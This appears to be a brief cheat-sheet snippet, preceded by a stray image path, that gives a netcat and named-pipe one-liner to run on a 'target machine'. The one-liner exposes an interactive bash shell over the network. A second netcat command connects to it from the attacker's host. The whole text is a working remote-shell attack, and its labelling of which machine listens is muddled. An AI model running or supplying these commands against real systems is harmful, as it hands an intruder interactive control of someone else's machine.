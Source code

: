On the target machine run 

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l {ip attacking box} {some port} > /tmp/f
```

On your host machine run

```
nc -nv {ip attacking box} {some port}
```